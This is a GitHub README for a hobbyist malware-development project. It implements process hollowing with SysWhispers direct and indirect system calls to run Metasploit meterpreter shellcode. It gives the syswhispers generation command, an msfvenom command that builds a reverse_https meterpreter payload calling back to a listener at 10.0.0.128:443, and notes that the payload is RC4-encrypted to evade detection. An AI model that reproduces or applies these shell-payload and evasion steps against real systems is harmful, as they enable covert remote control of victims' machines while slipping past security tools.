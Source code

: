 # Overview
HUGE thank you to the Syswhipsers project and the MALDEV Academy team for getting me excited about these kinds of projects and in helping me work on this project!

The `Syswhispers` branch is the syswhipers implementation

The `Indirect` branch is my attempt at an indirect systemcall implementation to run meterpreter shellcode via process hollowing

# Misc

Generating the syswhipers code:
```
python3 syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtResumeThread,NtWriteVirtualMemory,NtAllocateVirtualMemory,NtProtectVirtualMemory,NtReadVirtualMemory -o /home/noah/Desktop/MALDEV/modules/ProcessHollowing/syswhispers3_files -v
```
Payload:
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https lhost=10.0.0.128 lport=443 exitfunc=thread -f raw > payload.raw
```

Payload into HellShell Rc4 decryptor using `SystemFunction032`

# Analysis

I'd like to do some more indepth analysis at a later point but I also included API calls of the Syswhispers implementation comparing direct & indirect systemcalls.
